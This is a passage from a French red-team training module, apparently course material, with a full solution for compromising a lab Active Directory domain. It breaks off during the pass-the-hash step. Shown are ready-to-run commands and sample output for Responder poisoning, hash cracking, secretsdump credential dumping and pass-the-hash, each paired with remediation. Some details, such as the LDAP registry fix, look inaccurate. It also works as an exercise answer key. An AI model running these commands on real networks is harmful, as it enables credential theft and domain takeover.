




# Module 10 — Scénario Autonome : Compromission du Domaine CorpShadow

> **Jour 2 — Infrastructure & Active Directory**  
> **Durée : 60 minutes**  
> **Type : Boîte noire — Aucun compte initial fourni**  
> **Niveau : Intermédiaire / Avancé**

---

## Table des matières

1. [Briefing de mission](#1-briefing-de-mission)
2. [Règles de l'exercice (ROE)](#2-règles-de-lexercice-roe)
3. [Topologie réseau](#3-topologie-réseau)
4. [Objectifs (Flags)](#4-objectifs-flags)
5. [Solution pas à pas détaillée](#5-solution-pas-à-pas-détaillée)
   - [5.1 — Flag 1 : Énumération AD via BloodHound](#51--flag-1--énumération-ad-via-bloodhound)
   - [5.2 — Flag 2 : Capture de hash NTLMv2 via Responder + Crack](#52--flag-2--capture-de-hash-ntlmv2-via-responder--crack)
   - [5.3 — Flag 3 : Dump de hashes via secretsdump (SAM/LSASS)](#53--flag-3--dump-de-hashes-via-secretsdump-samlsass)
   - [5.4 — Flag 4 : Pass-the-Hash vers une machine distante](#54--flag-4--pass-the-hash-vers-une-machine-distante)
   - [5.5 — Flag 5 : Kerberoasting d'un compte de service](#55--flag-5--kerberoasting-dun-compte-de-service)
   - [5.6 — Flag 6 (Bonus) : DCSync → Golden Ticket → Accès persistant](#56--flag-6-bonus--dcsync--golden-ticket--accès-persistant)
6. [Workflow ATT&CK complet](#6-workflow-attck-complet)
7. [Indices](#7-indices)
8. [Template de documentation ATT&CK](#8-template-de-documentation-attck)
9. [Annexes : Corrections et explications](#9-annexes--corrections-et-explications)
10. [Références et ressources](#10-références-et-ressources)

---

## 1. Briefing de mission

### 1.1 Contexte

Vous êtes mandaté en tant que **red teamer** pour évaluer la sécurité du domaine Active Directory de la société **CorpShadow**, une PME en pleine transition numérique. CorpShadow a récemment migré son infrastructure depuis un environnement Workgroup vers un domaine Windows Server 2022, mais cette migration a été réalisée dans l'urgence, sans respect des bonnes pratiques de sécurité.

La direction de CorpShadow a accepté un test de pénétration en **boîte noire** : aucun compte privilégié, aucun accès initial, aucun détail sur la configuration interne ne vous est fourni. Vous partez d'un simple **poste utilisateur** connecté au réseau interne.

### 1.2 Objectif principal

**Compromission complète du domaine** `corp.shadow.local` — de l'accès initial au contrôleur de domaine, avec établissement d'un accès persistant.

### 1.3 Objectifs secondaires

| # | Objectif | Technique | Tags ATT&CK |
|---|----------|-----------|-------------|
| 1 | Cartographier le domaine avec BloodHound | Énumération AD | T1087.002, T1069.002 |
| 2 | Capturer un hash NTLMv2 et le casser | Responder + John/Hashcat | T1557.001, T1110.002 |
| 3 | Dumper les hashes SAM/LSASS d'une machine | secretsdump | T1003.002, T1003.001 |
| 4 | Se déplacer latéralement par Pass-the-Hash | PtH avec Impacket | T1550.002 |
| 5 | Kerberoaster un compte de service | Kerberoasting | T1558.003 |
| 6 (Bonus) | DCSync + Golden Ticket | Persistance | T1003.006, T1558.001 |

### 1.4 Scoring

| Flag | Points | Difficulté |
|------|--------|------------|
| Flag 1 | 10 pts | ★☆☆ |
| Flag 2 | 20 pts | ★★☆ |
| Flag 3 | 25 pts | ★★☆ |
| Flag 4 | 15 pts | ★☆☆ |
| Flag 5 | 20 pts | ★★★ |
| Flag 6 (Bonus) | 30 pts | ★★★ |

**Seuil de validation :** 60 pts pour valider le module.  
**Objectif avancé :** 100 pts (tous les flags, bonus inclus).

---

## 2. Règles de l'exercice (ROE)

### 2.1 Périmètre autorisé

| Élément | Valeur |
|---------|--------|
| Domaine cible | `corp.shadow.local` (10.10.10.0/24) |
| Plage d'adresses autorisée | 10.10.10.0/24 |
| Protocoles autorisés | SMB (445), RDP (3389), WinRM (5985/5986), LDAP (389/636), Kerberos (88), DNS (53) |
| Poste de départ | Workstation personnel `WS01` (10.10.10.100) — aucune restriction de droits |
| Comptes fournis | **Aucun** — découverte et escalade obligatoires |

### 2.2 Interdictions formelles

| Comportement | Sanction |
|--------------|----------|
| **DoS / DDoS** contre les serveurs de production | Exclusion immédiate |
| **Destruction ou modification** de données | Exclusion immédiate |
| **Crash du contrôleur de domaine** | Exclusion immédiate + rappel à l'ordre |
| **Déconnexion** physique ou logique des machines | Exclusion immédiate |
| **Ingénierie sociale** envers les employés non informés | Exclusion immédiate |
| **Exfiltration** de données hors du périmètre de test | Exclusion immédiate |
| **Scan réseau** hors de la plage 10.10.10.0/24 | Avertissement |

### 2.3 Conformité NIS2

Conformément à la directive **NIS2 (Network and Information Security Directive 2022/2555)**, chaque étape de l'attaque doit être :

1. **Documentée** dans le template ATT&CK fourni (section 8)
2. **Tagguée** avec la technique MITRE ATT&CK correspondante
3. **Justifiée** : pourquoi cette étape est nécessaire au test
4. **Remédiée** : proposition de correction concrète

> **Note :** Le client exige un rapport de test conforme NIS2. Les templates de documentation de la section 8 sont obligatoires pour valider l'exercice.

### 2.4 Contraintes temporelles

| Événement | Temps |
|-----------|-------|
| Début de l'exercice | T+0 min |
| Rappel intermédiaire | T+30 min |
| Fin de l'exercice | T+60 min |
| Rendu du rapport | T+75 min (15 min de marge) |

---

## 3. Topologie réseau

### 3.1 Schéma logique



### 3.2 Machines et rôles

| Nom | IP | Rôle | OS | Services exposés |
|-----|----|------|----|------------------|
| **DC01** | 10.10.10.10 | Contrôleur de domaine (DNS, LDAP, Kerberos, SMB) | Windows Server 2022 | 53, 88, 135, 139, 389, 445, 636, 3268, 5985, 5986, 9389 |
| **FS01** | 10.10.10.20 | File server (partage SMB) | Windows Server 2022 | 135, 139, 445, 5985, 5986 |
| **WS01** | 10.10.10.100 | Workstation (poste utilisateur) — **point de départ** | Windows 11 Pro | 135, 139, 445, 3389, 5985 |
| **Kali** | 10.10.10.200 | Attaquant (Kali Linux) | Kali Linux 2025.x | — |

### 3.3 Comptes et permissions

> **Rappel : boîte noire — ces informations ne sont PAS connues au départ.**
> Elles sont fournies ici à titre informatif pour le correcteur.

| Nom d'utilisateur | Rôle | Machines accessibles | Mots de passe / Hash |
|-------------------|------|---------------------|----------------------|
| `CORPSHADOW\Administrator` | Admin du domaine | DC01, FS01, WS01 | — |
| `CORPSHADOW\jdoe` | Utilisateur standard | WS01 | `P@ssw0rd!2025` (flag 2) |
| `CORPSHADOW\svc_backup` | Compte de service (Kerberoastable) | FS01 | `SvcB@ckup#2025` (flag 5) |
| `CORPSHADOW\svc_sql` | Compte de service SQL | DC01 | `SQL_Svc!2025` |
| `CORPSHADOW\krbtgt` | Compte KRBTGT (Golden Ticket) | DC01 | — |

### 3.4 Vulnérabilités simulées

| Vulnérabilité | Machine | Impact |
|---------------|---------|--------|
| Réponse LLMNR/mDNS active | WS01 | Capture de hash via Responder (Flag 2) |
| Partage SMB avec accès invité ou anonyme | FS01 | Accès non autorisé aux fichiers |
| Compte de service avec SPN et mot de passe faible | DC01 | Kerberoasting (Flag 5) |
| Pas de LAPS — même admin local sur toutes les machines | WS01, FS01 | Reuse de hash (Flag 4) |
| Délégation non contrainte sur un serveur | FS01 | Délégation (utilisé en bonus) |
| Aucune protection AS-REP Roasting | — | Faiblesse Kerberos |

---

## 4. Objectifs (Flags)

### 4.1 Récapitulatif des flags

| Flag | Nom | Commande clé | Fichier/output attendu |
|------|-----|--------------|------------------------|
| **Flag 1** | BloodHound — Énumération AD | `bloodhound-python -d corp.shadow.local -ns 10.10.10.10 -c all` | `/tmp/bloodhound/` contenant les fichiers JSON |
| **Flag 2** | Responder — Capture NTLMv2 | `responder -I eth0 -rdwv` | Hash NTLMv2 dans `/usr/share/responder/logs/` |
| **Flag 3** | secretsdump — SAM/LSASS | `impacket-secretsdump CORPSHADOW/jdoe:P@ssw0rd!2025@10.10.10.20` | Champs `hashes` des utilisateurs locaux et domaine |
| **Flag 4** | Pass-the-Hash — wmiexec | `impacket-wmiexec -hashes :<NT_HASH> CORPSHADOW/jdoe@10.10.10.20` | Shell administratif sur une machine distante |
| **Flag 5** | Kerberoasting — TGS-REP | `impacket-GetUserSPNs CORPSHADOW/jdoe:P@ssw0rd!2025 -dc-ip 10.10.10.10 -request` | Ticket TGS cracké = mot de passe du service |
| **Flag 6 (Bonus)** | DCSync → Golden Ticket | `impacket-secretsdump CORPSHADOW/Administrator@10.10.10.10 -just-dc` | Hash KRBTGT + création Golden Ticket |

### 4.2 Format des flags

Chaque flag est une chaîne de caractères au format :

```
FLAG{Module10_<technique>_<hash_partiel>}
```

Exemple : `FLAG{Module10_bloodhound_3f7a2b1c}`

Les flags sont stockés dans :
- **Flag 1** : Fichier texte `C:\Flags\flag1.txt` sur WS01
- **Flag 2** : Fichier texte `C:\Flags\flag2.txt` sur WS01
- **Flag 3** : Fichier texte `C:\Flags\flag3.txt` sur FS01
- **Flag 4** : Fichier texte `C:\Flags\flag4.txt` sur FS01
- **Flag 5** : Fichier texte `C:\Flags\flag5.txt` sur DC01
- **Flag 6 (Bonus)** : Fichier texte `C:\Flags\flag6.txt` sur DC01

---

## 5. Solution pas à pas détaillée

### 5.1 — Flag 1 : Énumération AD via BloodHound

#### 5.1.1 Technique et ATT&CK

| Propriété | Valeur |
|-----------|--------|
| **Technique** | Énumération des groupes de domaine (Domain Groups) |
| **Sous-technique** | T1069.002 — Permission Groups Discovery: Domain Groups |
| **Tactique** | TA0007 — Discovery |
| **Outil** | `bloodhound-python` (Ingestor BloodHound pour Linux) |
| **Prérequis** | Aucun — utilisable sans authentification en mode anonyme (selon config) |

#### 5.1.2 Explication détaillée

BloodHound est un outil de cartographie des relations Active Directory. Il utilise le protocole **LDAP (Lightweight Directory Access Protocol)** pour interroger l'annuaire du domaine et collecter les informations suivantes :

- Utilisateurs, groupes, ordinateurs
- Appartenances aux groupes
- Sessions actives
- ACL (Access Control Lists) et permissions
- Relations de confiance
- Chemins d'attaque possibles

L'ingestor `bloodhound-python` se connecte au contrôleur de domaine via LDAP (port 389/TCP) et collecte ces données pour les exporter au format JSON, qui peuvent ensuite être importées dans l'interface graphique BloodHound (Neo4j + Electron).

> **Pourquoi ça marche ?**  
> Par défaut, Active Directory autorise les requêtes LDAP anonymes ou non authentifiées pour les informations de base (utilisateurs, groupes, ordinateurs). Même sans compte valide, il est souvent possible de récupérer la liste complète des objets du domaine. Sur certaines configurations mal durcies, l'accès LDAP anonyme est encore activé.

#### 5.1.3 Commande

```bash
# Syntaxe complète
bloodhound-python \
    -d corp.shadow.local \
    -ns 10.10.10.10 \
    -c all \
    -o /tmp/bloodhound_output

# Décomposition des options :
#   -d       : Nom du domaine cible
#   -ns      : Serveur DNS (le DC)
#   -c all   : Collecte toutes les informations disponibles
#              (groupes, sessions, ACL, trusts, etc.)
#   -o       : Répertoire de sortie pour les fichiers JSON
```

**Variante si l'accès anonyme est désactivé (nécessite un compte) :**

```bash
# Avec authentification (une fois le flag 2 obtenu)
bloodhound-python \
    -d corp.shadow.local \
    -ns 10.10.10.10 \
    -c all \
    -u jdoe \
    -p 'P@ssw0rd!2025' \
    -o /tmp/bloodhound_output
```

#### 5.1.4 Exécution

```bash
# Étape 1 : Créer le répertoire de sortie
mkdir -p /tmp/bloodhound_output

# Étape 2 : Lancer l'ingestor BloodHound
bloodhound-python \
    -d corp.shadow.local \
    -ns 10.10.10.10 \
    -c all \
    -o /tmp/bloodhound_output

# Étape 3 : Vérifier les fichiers générés
ls -la /tmp/bloodhound_output/
# Output attendu :
#   - 20250530_*****_users.json
#   - 20250530_*****_groups.json
#   - 20250530_*****_computers.json
#   - 20250530_*****_acls.json
```

#### 5.1.5 Import dans BloodHound (interface graphique)

```bash
# Lancer Neo4j (base de données)
sudo neo4j start

# Lancer BloodHound (interface)
bloodhound &

# Dans BloodHound :
# 1. Cliquer sur "Upload Data"
# 2. Sélectionner tous les fichiers .json dans /tmp/bloodhound_output/
# 3. Analyser les chemins d'attaque
```

#### 5.1.6 Flag attendu

```text
FLAG{Module10_bloodhound_a1b2c3d4}
```

#### 5.1.7 Analyse post-exercice — Remédiation

```powershell
# Désactiver l'accès LDAP anonyme (à exécuter sur le DC)
Set-ItemProperty `
    -Path "HKLM:\SYSTEM\CurrentControlSet\Services\NTDS\Parameters" `
    -Name "LDAPServerIntegrity" `
    -Value 2

# Vérifier l'accès anonyme
Get-ItemProperty `
    -Path "HKLM:\SYSTEM\CurrentControlSet\Services\NTDS\Parameters" `
    -Name "LDAPServerIntegrity"

# Alternative : via Active Directory Administrative Center
# Désactiver "Enable LDAP over SSL" et restreindre les requêtes anonymes
```

---

### 5.2 — Flag 2 : Capture de hash NTLMv2 via Responder + Crack

#### 5.2.1 Technique et ATT&CK

| Propriété | Valeur |
|-----------|--------|
| **Technique** | LLMNR/NBT-NS Poisoning and Relay |
| **Sous-technique** | T1557.001 — Adversary-in-the-Middle: LLMNR/NBT-NS Poisoning and SMB Relay |
| **Tactique** | TA0006 — Credential Access |
| **Outil** | `Responder` (toolkit) + `john` ou `hashcat` |
| **Prérequis** | Être sur le même réseau que WS01 ; LLMNR activé sur le poste |

#### 5.2.2 Explication détaillée

**LLMNR (Link-Local Multicast Name Resolution)** est un protocole de résolution de noms qui fonctionne sur le port UDP 5355. Lorsqu'un nom d'hôte n'est pas résolu par DNS, Windows émet une requête LLMNR multicast sur le réseau local.

**Responder** est un empoisonneur LLMNR/NBT-NS/mDNS qui écoute sur le réseau et répond aux requêtes de résolution de noms. Quand une machine cliente tente de résoudre un nom qui n'existe pas (ou si le DNS est temporairement indisponible), Responder répond en usurpant l'identité de la cible. Le client envoie alors ses identifiants NTLMv2 pour s'authentifier, et Responder capture le hash.

> **Scénario typique :** Un utilisateur tape accidentellement `\\serveur_fichier` au lieu de `\\serveur_fichiers` (faute de frappe) dans l'explorateur Windows. LLMNR tente de résoudre le nom, Responder répond, et le hash NTLMv2 de l'utilisateur est capturé.

**Le hash NTLMv2** est un challenge-réponse qui contient :
- Le nom d'utilisateur
- Le nom de domaine
- Le challenge (valeur aléatoire)
- La réponse HMAC-MD5 (preuve de connaissance du mot de passe)

Ce hash peut être **cracké hors ligne** (offline) avec des outils comme `john` ou `hashcat` pour retrouver le mot de passe en clair.

#### 5.2.3 Commande

```bash
# Étape 1 : Lancer Responder en mode empoisonnement
sudo responder -I eth0 -rdwv

# Options :
#   -I       : Interface réseau à écouter
#   -r       : Répondre aux requêtes NBT-NS (NetBIOS Name Service)
#   -d       : Activer le mode DHCP
#   -w       : Répondre aux requêtes WPAD (Web Proxy Auto-Discovery)
#   -v       : Mode verbeux (affiche chaque requête)
```

**Simulation côté utilisateur (sur WS01 via PowerShell) :**

```powershell
# L'utilisateur fait une faute de frappe dans un chemin UNC
# Ceci déclenche une requête LLMNR
net use \\FAUX_SERVEUR\partage
```

#### 5.2.4 Capture du hash

```bash
# Responder affichera un résultat similaire à :
#
# [SMB] NTLMv2-SSP Hash captured from 10.10.10.100
# Username : CORPSHADOW\jdoe
# Hash     : jdoe::CORPSHADOW:1122334455667788:0123456789abcdef0123456789abcdef:0101000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000

# Les logs sont également sauvegardés :
ls -la /usr/share/responder/logs/
```

#### 5.2.5 Crack du hash

```bash
# Étape 1 : Copier le hash dans un fichier
echo 'jdoe::CORPSHADOW:1122334455667788:0123456789abcdef0123456789abcdef:0101000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000' > /tmp/ntlmv2_hash.txt

# Étape 2 : Cracker avec john (mode wordlist)
john --wordlist=/usr/share/wordlists/rockyou.txt /tmp/ntlmv2_hash.txt

# Étape 3 : Afficher le résultat
john --show /tmp/ntlmv2_hash.txt
# Output attendu :
# jdoe:P@ssw0rd!2025:CORPSHADOW:1122334455667788:0123456789abcdef...
# 1 password hash cracked, 0 left

# Alternative avec hashcat (si GPU disponible)
hashcat -m 5600 /tmp/ntlmv2_hash.txt /usr/share/wordlists/rockyou.txt --force
# -m 5600 : mode NTLMv2 (NetNTLMv2)
```

#### 5.2.6 Flag attendu

```text
FLAG{Module10_responder_e5f6g7h8}
```

#### 5.2.7 Analyse post-exercice — Remédiation

```powershell
# Désactiver LLMNR via GPO (recommandé)

# 1. Ouvrir la Gestion des stratégies de groupe (GPMC)
# 2. Créer ou modifier une GPO au niveau du domaine
# 3. Aller dans :
#    Configuration ordinateur > Modèles d'administration > Réseau > Client DNS
# 4. Activer le paramètre "Désactiver la résolution de noms multidiffusion (LLMNR)"
#    Valeur : Activé

# Équivalent PowerShell :
Set-ItemProperty `
    -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows NT\DNSClient" `
    -Name "EnableMulticast" `
    -Value 0

# Désactiver NBT-NS via les paramètres réseau
# Panneau de configuration > Centre réseau > Modifier les paramètres de la carte
# > Propriétés TCP/IPv4 > Avancé > WINS > Désactiver NetBIOS sur TCP/IP

# Pour les serveurs : désactiver complètement SMBv1
Disable-WindowsOptionalFeature -Online -FeatureName smb1protocol

# Activer SMB Signing pour prévenir le relay
Set-ItemProperty `
    -Path "HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" `
    -Name "RequireSecuritySignature" `
    -Value 1
```

---

### 5.3 — Flag 3 : Dump de hashes via secretsdump (SAM/LSASS)

#### 5.3.1 Technique et ATT&CK

| Propriété | Valeur |
|-----------|--------|
| **Technique** | OS Credential Dumping |
| **Sous-technique** | T1003.002 — Security Account Manager (SAM) |
| **Tactique** | TA0006 — Credential Access |
| **Outil** | `impacket-secretsdump` |
| **Prérequis** | Mot de passe de `jdoe` (flag 2) ; accès SMB vers FS01 |

#### 5.3.2 Explication détaillée

`secretsdump` fait partie de la suite **Impacket** et permet d'extraire les hashes de mots de passe d'une machine Windows distante en utilisant le protocole SMB. Il implémente plusieurs techniques :

1. **Extraction SAM (Security Account Manager)** : La base SAM contient les hashes des comptes locaux de la machine. Elle est stockée dans `C:\Windows\System32\config\SAM` et est chiffrée avec la clé `syskey` (stockée dans le registre SYSTEM). Secretsdump extrait à la fois SAM et SYSTEM pour déchiffrer les hashes.

2. **Extraction du cache de domaine** : Le cache `NL$KM` stocke les hashes des derniers utilisateurs du domaine qui se sont connectés à la machine. Utile pour récupérer des hashes de comptes du domaine.

3. **Extraction LSASS (via DCSync)** : En mode `-just-dc`, secretsdump utilise la réplication Active Directory (DRS) pour extraire tous les hashes du domaine — nous verrons cela dans le flag 6.

> **Pourquoi ça marche ?**  
> Avec des identifiants valides (même non-admin), secretsdump peut accéder au partage ADMIN$ (C$ via SMB) et lire les fichiers de registre (SAM, SYSTEM, SECURITY) à distance via la ruche de registre. Ces ruches sont déchiffrées localement pour extraire les hashes.  
> **Contre-mesure :** L'UAC distant (Remote UAC) bloque les comptes non-admin pour l'accès aux ruches de registre. Cependant, sur les serveurs Windows 2022 sans configuration spécifique, un compte utilisateur standard peut parfois encore accéder à certaines informations.

#### 5.3.3 Commande

```bash
# Syntaxe de base
impacket-secretsdump \
    CORPSHADOW/jdoe:'P@ssw0rd!2025'@10.10.10.20

# Décomposition :
#   CORPSHADOW/jdoe        : Compte de domaine
#   :'P@ssw0rd!2025'       : Mot de passe en clair
#   @10.10.10.20           : Adresse de la cible (FS01)
```

**Variantes utiles :**

```bash
# Extraction complète (SAM + LSA + cache)
impacket-secretsdump \
    CORPSHADOW/jdoe:'P@ssw0rd!2025'@10.10.10.20

# Extraction uniquement du SAM
impacket-secretsdump \
    CORPSHADOW/jdoe:'P@ssw0rd!2025'@10.10.10.20 \
    -sam

# Extraction avec hash au lieu de mot de passe
impacket-secretsdump \
    -hashes :<NTLM_HASH> \
    CORPSHADOW/jdoe@10.10.10.20
```

#### 5.3.4 Exécution

```bash
# Lancer le dump
impacket-secretsdump \
    CORPSHADOW/jdoe:'P@ssw0rd!2025'@10.10.10.20

# Output attendu (extrait) :
#
# Impacket v0.12.0 - Copyright 2022 Fortra
#
# [*] Target system IP: 10.10.10.20
# [*] Scanning service 445 (SMB)
# [*] Service SAM            : connecté
# [*] Service SYSTEM         : connecté
# [*] Service SECURITY       : connecté
# [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
# Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
# Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
# DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
# jdoe:1001:aad3b435b51404eeaad3b435b51404ee:<NTLM_HASH_JDOE>:::
#
# [*] Dumping cached domain logon info (uid:encrypted hash:domain)
# CORPSHADOW\Administrator:IMCEAABgBk... :corp.shadow.local
# CORPSHADOW\jdoe:IMCEAABgBk... :corp.shadow.local
#
# [*] Dumping LSA secrets
# $MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:<MACHINE_HASH>
# corp.shadow.local\jdoe: <NTLM_HASH_JDOE>
# corp.shadow.local\Administrator: <NTLM_ADMIN_HASH>
```

#### 5.3.5 Flag attendu

```text
FLAG{Module10_secretsdump_i9j0k1l2}
```

#### 5.3.6 Analyse post-exercice — Remédiation

```powershell
# Activer la protection LSA (Windows Defender Credential Guard)
# Cela empêche l'extraction des hashes de la mémoire LSASS

# Via le registre :
New-Item -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" `
    -Name "LsaCfgFlags" -Force
Set-ItemProperty `
    -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" `
    -Name "LsaCfgFlags" `
    -Value 1

# Valeurs possibles :
#   0 : Désactivé (vulnérable)
#   1 : Activé avec UEFI lock
#   2 : Activé sans UEFI lock

# Restreindre l'accès distant au registre
Set-ItemProperty `
    -Path "HKLM:\SYSTEM\CurrentControlSet\Control\SecurePipeServers\winreg" `
    -Name "RemoteRegAccess" `
    -Value 1

# Activer Windows Defender Credential Guard via GPO
# Configuration ordinateur > Modèles d'administration
# > Système > Credential Guard > Activer la protection Credential Guard

# Désactiver le stockage des mots de passe en texte clair en WDigest
Set-ItemProperty `
    -Path "HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest" `
    -Name "UseLogonCredential" `
    -Value 0
```

---

### 5.4 — Flag 4 : Pass-the-Hash vers une machine distante

#### 5.4.1 Technique et ATT&CK

| Propriété | Valeur |
|-----------|--------|
| **Technique** | Use Alternate Authentication Material |
| **Sous-technique** | T1550.002 — Pass-the-Hash |
| **Tactique** | TA0008 — Lateral Movement |
| **Outil** | `impacket-wmiexec`, `impacket-psexec`, `impacket-smbexec` |
| **Prérequis** | Hash NTLM d'un compte admin local (flag 3) ; SMB ouvert sur cible |

#### 5.4.2 Explication détaillée

Le **Pass-the-Hash (PtH)** est une technique qui permet de s'authentifier sur une machine distante en utilisant le **hash NTLM** d'un mot de passe plutôt que le mot de passe en clair. Cette technique exploite le fonctionnement du protocole NTLM :

1. Lors de l'authentification NTLM, le client envoie une **preuve de connaissance du mot de passe** sous forme d'un hash (response) calculé à partir d'un challenge
2. Le serveur vérifie cette preuve en comparant avec le hash stocké dans sa base SAM
3. Si le hash est correct, l'authentification réussit — le serveur n'a **jamais besoin** du mot de passe en clair

**Conséquence :** Si l'on possède le hash NTLM d'un utilisateur, on peut s'authentifier sans connaître son mot de passe. C'est particulièrement dangereux car :
- Le hash peut être extrait via secretsdump (Flag 3)
- Le hash est souvent réutilisé entre machines (surtout si LAPS n'est pas déployé)
- L'administrateur local a souvent le même mot de passe sur toutes les machines

> **Pourquoi ça marche ?**  
> Dans le scénario CorpShadow, l'administrateur local est identique sur WS01 et FS01 (même hash). En extrayant le hash de l'administrateur local de WS01 (via secretsdump sur FS01 contenant les hashes en cache), on peut se connecter à FS01 en tant qu'administrateur.

#### 5.4.3 Commande

```bash
# Syntaxe avec wmiexec (recommandé — le plus furtif)
impacket-wmiexec \
    -hashes aad3b435b51404eeaad3b435b51404ee:<NTLM_HASH> \
    CORPSHADOW/jdoe@10.10.10.20

# Décomposition :
#   -hashes <LM_HASH>:<NT_HASH>
#           LM_HASH = aad3b435b51404eeaad3b435b51404ee (hash vide = LM désactivé)
#           NT_HASH = hash NTLM du compte
#   CORPSHADOW/jdoe@10.10.10.20
#           Utilisateur et cible

# Variante avec psexec (plus bruyant — crée un service)
impacket-psexec \
    -hashes :<NTLM_HASH> \
    CORPSHADOW/jdoe@10.10.10.20

# Variante avec smbexec (également via SMB)
impacket-smbexec \
    -hashes :<NTLM_HASH> \
    CORPSHADOW/jdoe@10.10.10.20
```

#### 5.4.4 Exécution

```bash
# Étape 1 : Récupérer le hash NTLM de l'administrateur local depuis le flag 3
# Depuis l'output de secretsdump, chercher la ligne :
